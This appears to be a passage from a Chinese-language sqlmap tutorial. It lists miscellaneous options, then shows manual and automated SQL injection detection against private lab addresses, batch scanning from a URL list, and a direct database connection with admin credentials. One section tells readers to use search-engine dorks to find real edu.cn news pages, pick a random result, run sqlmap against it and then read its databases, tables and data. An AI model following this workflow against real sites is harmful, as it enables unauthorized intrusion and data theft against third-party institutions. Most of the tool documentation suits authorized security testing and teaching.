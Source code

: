 ### 1.3.16 其他
- -z MNEMONICS        使用短记忆法 (e.g."flu,bat,ban,tec=EU")
- --alert=ALERT       发现SQL注入时，运行主机操作系统命令
- --answers=ANSWERS   当希望sqlmap提出输入时，自动输入自己想要的答案(e.g. "quit=N,follow=N")，例如：sqlmap.py -u"http://192.168.22.128/get_int.php?id=1"--technique=E--answers="extending=N"    --batch
- --beep    发现sql注入时，发出蜂鸣声。
- --cleanup     清除sqlmap注入时在DBMS中产生的udf与表。
- --dependencies      Check formissing (non-core) sqlmap dependencies
- --disable-coloring  默认彩色输出，禁掉彩色输出。
- --gpage=GOOGLEPAGE 使用前100个URL地址作为注入测试，结合此选项，可以指定页面的URL测试
- --identify-waf      进行WAF/IPS/IDS保护测试，目前大约支持30种产品的识别
- --mobile     有时服务端只接收移动端的访问，此时可以设定一个手机的User-Agent来模仿手机登陆。
- --offline           Work inoffline mode (only use session data)
- --purge-output     从输出目录安全删除所有内容，有时需要删除结果文件，而不被恢复，可以使用此参数，原有文件将会被随机的一些文件覆盖。
- --skip-waf           跳过WAF／IPS / IDS启发式检测保护
- --smart            进行积极的启发式测试，快速判断为注入的报错点进行注入
- --sqlmap-shell      互动提示一个sqlmapshell
- --tmp-dir=TMPDIR    用于存储临时文件的本地目录
- --web-root=WEBROOT  Web服务器的文档根目录(e.g."/var/www")
- --wizard   新手用户简单的向导使用，可以一步一步教你如何输入针对目标注入

## 1.4 实际利用
### 1.4.1 检测和利用SQL注入
**1. 手工判断是否存在漏洞**

对动态网页进行安全审计，通过接受动态用户提供的GET、POST、Cookie参数值、User-Agent请求头。

原始网页：http://192.168.136.131/sqlmap/mysql/get_int.php?id=1

构造url1：http://192.168.136.131/sqlmap/mysql/get_int.php?id=1+AND+1=1

构造url2：http://192.168.136.131/sqlmap/mysql/get_int.php?id=1+AND+1=2

如果url1访问结果跟原始网页一致，而url2跟原始网页不一致，有出错信息或者显示内容不一致，则证明存在SQL注入。

**2. sqlmap自动检测**

检测语法：sqlmap.py -u http://192.168.136.131/sqlmap/mysql/get_int.php?id=1

技巧：在实际检测过程中，sqlmap会不停的询问，需要手工输入Y/N来进行下一步操作，可以使用参数“--batch”命令来自动答复和判断。

**3. 寻找和判断实例**

通过百度对“inurl:news.asp?id=site:edu.cn”、“inurl:news.php?id= site:edu.cn”、“inurl:news.aspx?id=site:edu.cn”进行搜索，搜索news.php/asp/aspx，站点为edu.cn。随机打开一个网页搜索结果，如果能够正常访问，则复制该URL地址。

将该url使用sqlmap进行注入测试，，测试结果可能存在SQL注入，也可能不存在SQL注入，存在则可以进行数据库名称，数据库表以及数据的操作。

**4. 批量检测**
将目标url搜集并整理为txt文件，如图4所示，所有文件都保存为tg.txt，然后使用“sqlmap.py-m tg.txt”，注意tg.txt跟sqlmap在同一个目录下。
![批量整理目标地址](批量整理目标地址.jpg)

### 1.4.2 直接连接数据库
> sqlmap.py -d"mysql://admin:admin@192.168.21.17:3306/testdb" -f --banner --dbs--users
